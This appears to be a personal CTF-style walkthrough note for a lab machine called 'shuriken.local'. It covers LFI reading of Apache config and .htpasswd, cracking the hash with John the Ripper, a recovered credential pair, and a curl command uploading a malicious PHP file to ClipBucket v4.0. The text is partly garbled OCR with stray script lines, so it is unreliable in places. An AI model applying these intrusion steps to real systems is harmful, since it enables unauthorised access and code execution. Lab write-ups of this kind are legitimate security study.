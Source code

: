 ```
Found: 54 Status: 400 [Size: 427]
Found: 9 Status: 400 [Size: 427]
Found: 70 Status: 400 [Size: 427]
Found: 01 Status: 400 [Size: 427]
Found: 16 Status: 400 [Size: 427]
Found: 39 Status: 400 [Size: 427]
Found: 6 Status: 400 [Size: 427]
Found: www.123 Status: 400 [Size: 427]

```
We cannot get nothing of this so, he said that for watch credentials we can see on the configuration route of apache it is on /etc/apache2/sites-enabled and watch the archive caled 000-default.conf


this is , we have more info here
![[apacheconf.png]]


We watch on that, and maybe the user is developers and the password ... 

skill (- Abusing LFI - Reading Apache config files)

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
        <script src="/js/index__7ed54732.js"></script>
        <script src="/js/index__d8338055.js"></script>

```

now we must "crack" the password with john the ripper

skill (Cracking Hashes)

john -w:/usr/share/wordlists/rockyou.txt

/etc/apache2/.htpasswd

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```
9972761drmfsls

This are the credentials. Now we find a exploit for clipbucket

if we want to autenticate us with curl, we must do this


In this way you are putting the credentials on te curl petition 
```
curl -s -X GET "http://developers:9972761drmfsls@broadcast.shuriken.local/"
```

(skills - ClipBucket v4.0 Exploitation - Malicious PHP File Upload)

We have been using an exploit searched on metasploit with the comand searchsploit, for clipbucket v4.0. We obtan the information that the page is vulnerable to insert malicious archives, in this case we are using a php archive, like i did in other ocasions. This was the command

```
curl -F "file=@cmd.php" -F "plupload=1" -F "name=cmd.php" http://developers:9972761drmfsls@broadcast.shuriken.local/actions/photo_uploader.php
```
